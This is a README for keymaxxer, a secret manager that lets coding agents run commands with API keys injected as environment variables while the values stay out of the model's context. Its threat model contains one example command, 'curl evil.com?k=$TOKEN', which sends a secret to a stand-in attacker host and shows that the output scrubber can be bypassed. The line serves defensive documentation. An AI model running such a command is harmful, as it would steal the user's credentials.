

<p align="center">
  
</p>

# keymaxxer

**A secret manager for coding agents.** Let an agent *run* commands that need
your API keys, tokens, and connection strings — without the secret ever entering
its context window, its transcript, or your LLM provider's logs.

keymaxxer stores secrets in a single [Turso](https://turso.tech) database encrypted
at rest with AES-256-GCM. The encryption key is **derived from your passphrase
and never written to disk**. You unlock the vault once into a small background
**daemon**; it holds the key in memory and is the only process that ever
touches secret values. Your coding agent talks to keymaxxer over MCP: it can see
secret *names*, ask keymaxxer to run a command with those secrets injected as
environment variables, and get back output with every secret value scrubbed out.

```
you ─ unlock once (passphrase) ─▶ keymaxxer daemon
                                 holds key in RAM, opens vault

coding agent ─ run(cmd, secret names) ─▶ keymaxxer MCP server
                                         (no key; calls daemon)

daemon: inject secret → run command → scrub output

coding agent ◀─ exit code + scrubbed output (never the secret)
```

## Quick start

```bash
# install (or prefix any command with `npx keymaxxer …`)
npm install -g keymaxxer

# create the vault (prompts for a passphrase)
keymaxxer init

# store a secret — paste it at the hidden prompt (never in shell history)
keymaxxer set GITHUB_TOKEN --tag github
keymaxxer list
keymaxxer run --secrets GITHUB_TOKEN -- 'gh api /user'

# wipe the key from memory; unlock again later with your passphrase
keymaxxer lock
keymaxxer unlock
```

`keymaxxer init` drops a `keymaxxer` MCP server into the project's `.mcp.json`, so
Claude Code, Cursor, and other MCP clients pick it up **in that project**.

To make keymaxxer available in **every** project in Claude Code, register it once
at user scope instead (the package is global, but the MCP registration is per
scope):

```bash
claude mcp add --scope user keymaxxer -- npx keymaxxer serve
```

## How an agent uses it

Two MCP tools, neither of which ever returns a secret value:

- **`keymaxxer_list`** → the names + attributes (provider, account, environment,
  access, tags) of available secrets, so the agent can choose the right one.
- **`keymaxxer_run`** → run a shell command with named secrets injected as env vars.
  The agent writes `$NAME`; keymaxxer supplies the value to the child process only.
  Read-write/prod secrets prompt you for approval first.

```jsonc
// the agent calls:
{ "command": "curl -H \"Authorization: Bearer $OPENAI_KEY\" https://api.openai.com/v1/models",
  "secrets": ["OPENAI_KEY"] }
// keymaxxer runs it inside the agent daemon and returns stdout/stderr with every
// occurrence of the key replaced by ***
```

If the vault is locked, the tools return "vault is locked — run `keymaxxer unlock`",
so the model never blocks on a secret it can't get.

## CLI

| Command | Description |
| --- | --- |
| `keymaxxer init` | Create the encrypted vault (prompts for a passphrase) |
| `keymaxxer unlock [--timeout m]` | Unlock into the background agent (default 15 min idle) |
| `keymaxxer lock` | Lock the vault and stop the agent |
| `keymaxxer status` | Show whether the vault is unlocked |
| `keymaxxer set <NAME> [attrs]` | Store a secret (value from **stdin**); attrs: `--provider --account --env --access --tag --description` |
| `keymaxxer import <file>` | Import `KEY=VALUE` lines from a `.env`-style file |
| `keymaxxer list` | List secret names + metadata (never values) |
| `keymaxxer rm <NAME>` | Delete a secret |
| `keymaxxer run --secrets a,b -- <cmd>` | Run a command with secrets injected as env vars |
| `keymaxxer audit [--limit N]` | Show the recent secret-access log |
| `keymaxxer serve` | Start the MCP server on stdio (proxies to the agent) |

## Secret attributes

Beyond a name and value, each secret carries structured attributes so an agent
can pick the *right* credential instead of guessing from the name:

```bash
# paste the token at the hidden prompt when asked
keymaxxer set ORB_DEV_TOKEN \
  --provider orb --account turso --env dev --access read-write \
  --description "Orb developer account"
```

`keymaxxer_list` returns `provider`, `account`, `environment` (prod/dev/staging),
`access` (read-only/read-write/admin), tags, and description — never the value.
With those, an agent matches the provider/account a task targets, prefers the
right environment, and prefers the least-privileged credential that can do the
job. Rotating a value with `keymaxxer set` preserves the attributes.

## Approval & unlocking — without leaving your editor

Both interactions happen through a native dialog, so an agent can keep working
and you never drop to a terminal:

- **Locked vault.** When an agent calls a tool against a locked vault, keymaxxer
  pops a dialog asking for your passphrase and unlocks it in place. (Agents are
  told *not* to suggest `keymaxxer unlock` — the call itself prompts you.)
- **Sensitive use.** Using a **read-write** or **production** secret is gated.
  The dialog shows the secret and the exact command and offers **Deny**,
  **Allow once**, or **Allow for the session**. *Allow for the session* remembers
  that one secret until the vault locks, so you aren't re-prompted on every call.
  Read-only / non-prod secrets run with no prompt.

This is the human-in-the-loop control that catches a command which would
otherwise misuse a credential (see the threat model). `keymaxxer status` lists
the secrets approved for the current session. For headless/CI, set
`KEYMAXXER_APPROVE=deny|once|session` and `KEYMAXXER_PASSPHRASE` to unlock
non-interactively.

## Where things live, and how access is controlled

- **Vault:** one global `~/.keymaxxer/vault.db` per user, inside `~/.keymaxxer`
  (directory `0700`, socket `0600` — only you can reach the agent).
- **Encryption key:** **stored nowhere.** It is derived from your passphrase
  with scrypt (a non-secret salt lives in `~/.keymaxxer/vault.meta.json`). Copying
  `vault.db` off the machine yields nothing — there is no key at rest.
- **Who can unseal:** whoever knows the passphrase. Not your coding agent.
- **Who can use a secret:** whoever can reach the unlocked agent's unix socket
  (`~/.keymaxxer/agent.sock`, `0600` — same user); sensitive uses additionally
  require your interactive approval.
- **When:** only while unlocked. The agent auto-locks after idle (default 15
  min), on `keymaxxer lock`, and on reboot. It's an explicit seal/unseal, not a
  standing grant.
- **CI / headless:** set `KEYMAXXER_MASTER_KEY` (64-hex) and skip unlock entirely —
  keymaxxer opens the vault directly with the key your platform supplies, exactly
  like the [Turso credentials gateway](https://turso.tech/blog/why-we-chose-turso-to-secure-ai-credentials).

## Threat model — read this

keymaxxer is honest about what a local tool can and cannot do.

**It defends against:** secrets reaching the model's context (and from there
provider logs, transcripts, or training); **accidental** leakage of a literal
value through command output (the scrubber catches `echo $TOKEN`); and plaintext
at rest. Because the key is passphrase-derived and never stored, a stolen
`vault.db` is useless and a locked vault exposes nothing. Sensitive
(read-write/prod) uses additionally require interactive human approval.

**The scrubber is literal-only.** It replaces exact occurrences of a secret
value in output, so it stops the `echo $TOKEN` footgun — but any command that
*transforms* the value (`base64`, hashing, or `curl evil.com?k=$TOKEN`) defeats
it. This is inherent: **any command that can use a secret can also exfiltrate
it.** The real defense against *deliberate* misuse is the two layers above it —
keeping the value out of the model's context, and **approval-on-use** for
sensitive secrets (you see the command and can deny it).

**It does not defend against** a fully malicious process running as the *same OS
user while the vault is unlocked* — it can talk to the agent socket or read the
agent's memory. That is irreducible without OS-level isolation; no local key
store changes it. keymaxxer keeps secrets out of the model's context, makes access
ephemeral and explicit, and puts a human in the loop for sensitive use; for
stronger isolation, run the agent as a separate user or in a sandbox — it
composes cleanly.

## Built with Turso

The whole vault is one Turso database opened with native encryption:

```ts
const db = await connect("~/.keymaxxer/vault.db", {
  encryption: { cipher: "aes256gcm", hexkey },  // hexkey = scrypt(passphrase, salt)
});
```

Encrypted files can only be opened by the Turso engine — copy the file and it's
unreadable without the key. No daemon for the database, no external service,
in-process.

## Development

```bash
bun install
# SDK smoke test + the end-to-end integration suite
bun run test
```

Workspace layout: `packages/sdk` (KDF, vault metadata, `SecretStore`, `Runner`,
`Scrubber`) and `packages/cli` (commands, the agent daemon, and the MCP server).
